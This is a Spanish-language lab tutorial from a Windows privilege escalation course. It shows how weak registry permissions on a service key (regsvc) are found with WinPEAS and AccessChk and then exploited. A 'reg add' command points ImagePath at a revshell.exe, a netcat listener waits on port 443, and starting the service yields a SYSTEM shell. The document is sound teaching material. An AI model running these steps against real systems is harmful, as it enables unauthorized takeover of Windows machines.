



> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]

---
# Servicios: Weak Registry Permissions

# 📋 Servicios - Weak Registry Permissions

 
 

## 📖 ENUNCIADO (DESCRIPCIÓN)

 

### ⚙️ Explotando Servicios en Windows

 

La elevación de privilegios en Windows a través de servicios es una técnica utilizada para obtener permisos más altos en un sistema operativo Windows aprovechando vulnerabilidades o debilidades en los servicios que se ejecutan en él. Un servicio en Windows es un programa que se ejecuta en segundo plano y realiza diversas funciones en el sistema.

 

### 🎯 Vectores de Ataque a Servicios

 

Existen varias formas en las que un atacante puede intentar elevar sus privilegios a través de servicios en Windows:

 

> [!warning]
> 
 
> #### ⚠️ Técnicas de Explotación de Servicios:
> 

> 

> 
> 1. 
> **Explotación de vulnerabilidades conocidas:** Los servicios en Windows pueden contener vulnerabilidades que permiten a un atacante ejecutar código malicioso con privilegios elevados. Si se descubre una vulnerabilidad en un servicio y no se aplica un parche o actualización, un atacante puede aprovecharla para obtener privilegios más altos.
> 
 
> 2. 
> **Uso de servicios débilmente configurados:** Algunos servicios en Windows pueden tener configuraciones débiles que permiten a un atacante modificar su comportamiento o ejecutar comandos con privilegios elevados. Por ejemplo, si un servicio se está ejecutando con privilegios de administrador y se puede manipular su configuración para ejecutar un programa malicioso, el atacante podría obtener privilegios elevados.
> 
 
> 3. 
> **Suplantación de servicios legítimos:** Un atacante puede crear un servicio falso con un nombre similar al de un servicio legítimo y hacer que el sistema lo ejecute automáticamente al inicio. Este servicio falso puede estar diseñado para ejecutar código malicioso con privilegios elevados, engañando al sistema y al usuario.
> 
 
> 4. 
> **Ataques de reescritura de DLL:** En algunos casos, un atacante puede modificar las rutas de búsqueda de DLL (bibliotecas de enlace dinámico) utilizadas por un servicio. Si el atacante logra colocar una DLL maliciosa en una de las rutas de búsqueda, el servicio puede cargar esa DLL en lugar de la legítima, lo que le permite ejecutar código malicioso con privilegios elevados.
> 
 
> 5. 
> **Unquoted Path:** La vulnerabilidad de la ruta no citada es una vulnerabilidad común que puede afectar a los servicios de Windows. Esta vulnerabilidad se produce cuando una ruta de archivo no está encerrada entre comillas dobles ("") en el registro de Windows, lo que puede llevar a un comportamiento inesperado y potencialmente malicioso.
> 

> 

 

### 🛡️ Prevención de Elevación de Privilegios

 

Para prevenir la elevación de privilegios a través de servicios en Windows, es importante seguir buenas prácticas de seguridad, como:

 

> [!tip]
> 
 
> #### ✅ Buenas Prácticas de Seguridad:
> 
 

> 
> * Mantener actualizado el sistema operativo y los servicios instalados, aplicando los parches y actualizaciones de seguridad correspondientes.
> 
> * Configurar adecuadamente los servicios, minimizando los privilegios necesarios para su ejecución.
> 
> * Utilizar contraseñas seguras para las cuentas de servicio y evitar utilizar credenciales de administrador cuando no sean necesarias.
> 
> * Implementar mecanismos de control de acceso y políticas de seguridad adecuadas.
> 
> * Utilizar soluciones de seguridad, como antivirus y firewalls, para detectar y prevenir ataques.
> 

> 

 

 
 

## 🔍 Descubriendo Vulnerabilidades - Weak Registry Permissions

 

### 🛠️ Paso 1: Ejecutar WinPEAS

 

Vamos a usar **WinPEAS** para ver si los servicios son vulnerables.

 


 

Si queremos podemos enviarlo directamente a nuestra Kali por SMB:

 


 

### 📊 Paso 2: Analizar los Resultados

 

Vemos el documento txt que hemos recibido:

 


 



 

> [!note]
> 
 
> #### 💡 ¿Qué son Weak Registry Permissions?
> 
 
> Los servicios de Windows almacenan su configuración en el **Registro de Windows**, específicamente en:
> 
> ```
> HKLM\System\CurrentControlSet\Services\[NombreServicio]
> ```
> 
 
> Si un usuario no privilegiado tiene permisos de **escritura** sobre la clave del registro de un servicio, puede modificar parámetros críticos como:
> 

> 
> * **ImagePath:** Ruta del ejecutable que se lanza al iniciar el servicio
> 
> * **Start:** Tipo de inicio del servicio
> 
> * **ObjectName:** Cuenta bajo la que se ejecuta el servicio
> 

> 
> Esto permite ejecutar código malicioso con los privilegios del servicio.
> 

 

### 🔧 Paso 3: Verificar Permisos del Registro con AccessChk

 

Vamos a usar nuevamente **AccessChk** que pertenece a las Sysinternals y que permite evaluar los permisos de accesos sobre diversos objetos. En este caso vamos a ver los permisos sobre la entrada en el registro:

 



 

> [!tip]
> 
 
> #### 🔍 Interpretación de los Permisos del Registro:
> 

> 
> ##### 📌 Medium Mandatory Level (Default) [No-Write-Up]:
> 
 

> 
> * **Medium Mandatory Level:** Indica que la clave del registro tiene un nivel de integridad medio. Esto es común para muchas claves del registro que no están estrictamente protegidas por el sistema.
> 
> * **[No-Write-Up]:** Significa que los procesos con un nivel de integridad más bajo que el medio no pueden escribir en esta clave del registro. Esta es una medida de seguridad para prevenir que procesos menos privilegiados hagan cambios en áreas críticas del sistema.
> 

> 
 
> ##### 👤 NT AUTHORITY\INTERACTIVE:
> 
 

> 
> * **Descripción:** NT AUTHORITY\INTERACTIVE es un grupo de seguridad en Windows que incluye a todos los usuarios que han iniciado sesión localmente en la máquina y están interactuando con la interfaz de usuario (por ejemplo, a través del escritorio o una sesión de terminal interactiva).
> 
> * **Permisos:** En este caso, los usuarios interactivos tienen **KEY_ALL_ACCESS**, lo que les da **control total** sobre la clave del registro `HKLM\System\CurrentControlSet\Services\regsvc`.
> 

> 

 

> [!warning]
> 
 
> **⚠️ Vulnerabilidad Crítica:**
> 
> Si un usuario normal tiene **KEY_ALL_ACCESS** sobre la clave de registro de un servicio, puede modificar el valor `ImagePath` para que apunte a un ejecutable malicioso. Al iniciar el servicio, se ejecutará el código malicioso con los privilegios del servicio (potencialmente SYSTEM).
> 

 

 
 

## 💥 Explotando la Vulnerabilidad - Weak Registry Permissions

 

### 📝 Paso 1: Modificar el Registro del Servicio

 

Reescribimos el registro para que al iniciar el servicio apunte a nuestro `revshell.exe`:

 



 

```cmd
C:\tools> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\tools\revshell.exe /f
```

 

> [!note]
> 
 
> #### 🔧 Explicación del Comando:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `reg add`
> 
> 
> 
> `HKLM\...\regsvc`
> 
> 
> 
> `/v ImagePath`
> 
> 
> 
> `/t REG_EXPAND_SZ`
> 
> 
> 
> `/d C:\tools\revshell.exe`
> 
> 
> 
> `/f`
> 
> 
> 
> 
> | Parámetro | Descripción |
> | --- | --- |
> | | Comando para añadir/modificar una entrada del registro |
> | | Ruta de la clave del registro del servicio |
> | | Nombre del valor a modificar (ruta del ejecutable) |
> | | Tipo de dato del registro (cadena expandible) |
> | | Nuevo valor (ruta a nuestro payload) |
> | | Forzar sobrescritura sin confirmación |
> 
 

 

### 🎧 Paso 2: Poner Netcat a la Escucha en Kali

 

```bash
$ nc -lvnp 443
```

 

### 🚀 Paso 3: Iniciar el Servicio en Windows

 

```cmd
C:\tools> net start regsvc
```

 


 

### ✅ Paso 4: Recibir la Shell en Kali

 

Al iniciar el servicio, Windows leerá el valor `ImagePath` del registro y ejecutará nuestro `revshell.exe`, obteniendo una shell en Kali:

 


 

> [!tip]
> 
 
> #### 🎉 ¡Éxito!
> 
 
> Hemos obtenido una shell con los privilegios del servicio mediante modificación del registro. Si el servicio se ejecutaba como **NT AUTHORITY\SYSTEM**, ahora tenemos control total del sistema.
> 
> Verificar privilegios:
> 
> ```cmd
> C:\> whoami
> C:\> whoami /priv
> ```
> 
 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ Los servicios de Windows almacenan su configuración en el registro
> 
> * ✅ WinPEAS identifica servicios con permisos débiles en el registro
> 
> * ✅ AccessChk permite verificar permisos sobre claves del registro
> 
> * ✅ El grupo NT AUTHORITY\INTERACTIVE incluye usuarios con sesión local
> 
> * ✅ KEY_ALL_ACCESS permite modificar cualquier valor del registro
> 
> * ✅ Modificar ImagePath permite cambiar qué ejecutable se lanza al iniciar el servicio
> 
> * ✅ Al iniciar el servicio modificado, obtenemos ejecución de código privilegiado
> 

> 
 
> ### 🔄 Flujo del Ataque:
> 
 

> [!note]
> 
 
> 
 **WinPEAS** → 
> **Identificar servicio vulnerable** → 
> **Verificar permisos con AccessChk** → 
> **Modificar ImagePath en el registro** → 
> **Iniciar servicio** → 
> **Shell con privilegios elevados**
> 
> 

> 
 
> ### 🔑 Conceptos Clave:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **Registro de Windows**
> 
> 
> 
> **ImagePath**
> 
> 
> 
> **KEY_ALL_ACCESS**
> 
> 
> 
> **NT AUTHORITY\INTERACTIVE**
> 
> 
> 
> **reg add**
> 
> 
> 
> 
> | Concepto | Descripción |
> | --- | --- |
> | | Base de datos jerárquica que almacena configuración del sistema |
> | | Valor del registro que indica qué ejecutable lanza un servicio |
> | | Permiso que otorga control total sobre una clave del registro |
> | | Grupo que incluye usuarios con sesión local interactiva |
> | | Comando para modificar valores del registro de Windows |
> 

> 
> ### 🎯 Ruta del Registro de Servicios:
> 
 

> [!note]
> 
 
> ```
> HKLM\SYSTEM\CurrentControlSet\Services\[NombreServicio]
> 
Valores importantes:
> - ImagePath: Ruta del ejecutable
> - Start: Tipo de inicio (2=Automático, 3=Manual, 4=Deshabilitado)
> - ObjectName: Cuenta que ejecuta el servicio
> - DisplayName: Nombre visible del servicio
> ```
> 
 

> 
 
> ### 🎯 Navegación:
> 
 
> ← Práctica 03-03: Servicios - Unquoted Path
> 
> → Práctica 03-05: Servicios - Insecure Service Executable
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]
